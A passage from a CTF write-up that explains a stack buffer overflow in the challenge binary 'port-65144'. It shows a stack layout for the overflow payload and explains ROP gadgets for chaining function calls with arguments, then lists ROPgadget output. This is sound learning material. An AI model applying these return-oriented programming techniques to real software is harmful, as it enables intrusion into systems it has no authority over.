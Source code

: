 As the output says "Gotcha func1". We can see that this function change the value of the variable in the `.bss` that is important for later. Now I think we can make the same for the "gotcha func2", but now we have to use a thing called gadgets.

### Gadgets

Gadgets are instructions that help us to control the program flow, in this case we need a gadget that performs a `pop; pop; ret;` why?

Our stack is like this in this moment:

```raw
+++++++++++
higest addr
+==STACK==+
+++++++++++
+++++++++++
+++++++++++
+++++++++++
+         +
+         +
+         +   300                         FUNCTION 1 ARG2
+         +   0x9c                        FUNCTION 1 ARG1
+         +   JUNK                        JUNK FOR NOW
+   EIP   +   0x8049256                   FUNCTION 1 ADDREESS
+   EBP   +   AAAA                        EBP
+   VAR1  +   AAAAAAAAAAAAAAAAAAA...      BUFFER
+         +
+         +
+   ...   +
+   ...   +
+   ...   +
+   ESP   +
+         +
+++++++++++
lowest addr
+++++++++++
```

OK, when then function 1 returns, where we put the `JUNK` will be our next `EIP`, but since we have to pass arguments to the next function we need the gadget to pop the current arguments from the stack to give place to the next `EIP` and the arguments. So we have to pop the arg1 and the arg2.

Let's remember how is the second function, and how we will get the gadget.

<center><img src="post-assets/port-65144-ghidra-3.png" width="662" alt="ghidra" /></center>

This function receive 3 arguments, and the values should be 1st argument = `0` (zero), 2nd and 3rd arguments = `0xd`

For our help, I will install <a href="https://github.com/JonathanSalwan/ROPgadget" target="_blank">ROPGadget</a> that will show us what are the gadgets available.

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 ROPgadget/ROPgadget.py --binary port-65144 | grep pop
0x080494cd : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804949d : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804901f : add esp, 8 ; pop ebx ; ret
0x0804942e : clc ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x08049294 : inc dword ptr [ebx - 0x746fef3c] ; pop ebp ; cld ; leave ; ret
0x0804949c : jecxz 0x8049429 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0804949b : jne 0x8049489 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804942c : lea esp, [ebp - 8] ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x08049020 : les ecx, ptr [eax] ; pop ebx ; ret
0x0804949e : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0804949f : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
```